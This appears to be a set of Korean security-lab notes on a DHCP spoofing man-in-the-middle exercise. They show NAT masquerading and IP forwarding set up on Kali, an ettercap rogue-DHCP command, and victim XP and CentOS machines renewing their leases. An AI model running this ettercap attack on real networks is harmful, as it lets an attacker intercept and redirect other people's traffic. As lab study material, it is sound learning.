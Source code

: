 ```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
MASQUERADE  all  --  anywhere             anywhere            

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
```

root@kali-04:~/Desktop# sysctl -p

```
net.ipv4.ip_forward = 1
```

root@kali-04:~/Desktop# ettercap -i eth1 -T -M dhcp:10.10.10.50-60/255.255.255.0/8.8.8.8

와이어샤크는 eth1로 잡기



###### XP

ipconfig /release -> ipconfig /renew



###### CentOS 

[root@Linux-11 바탕화면]# service network restart

```
loopback 인터페이스 종료 중:                               [  OK  ]
loopback 인터페이스 활성화중 입니다:                       [  OK  ]
eth0 인터페이스 활성화중 입니다:  
eth0에 관한 IP 정보를 얻고 있습니다... 완료.
                                                           [  OK  ]
```

[root@Linux-11 바탕화면]# dhclient -r eth0
[root@Linux-11 바탕화면]# ifconfig

```
eth0      Link encap:Ethernet  HWaddr 00:04:56:2B:84:FA  
          inet addr:172.16.10.150  Bcast:172.16.10.255  Mask:255.255.255.0
          inet6 addr: fe80::204:56ff:fe2b:84fa/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:4283 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1532 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1932349 (1.8 MiB)  TX bytes:150828 (147.2 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:78 errors:0 dropped:0 overruns:0 frame:0
          TX packets:78 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:5944 (5.8 KiB)  TX bytes:5944 (5.8 KiB)
```
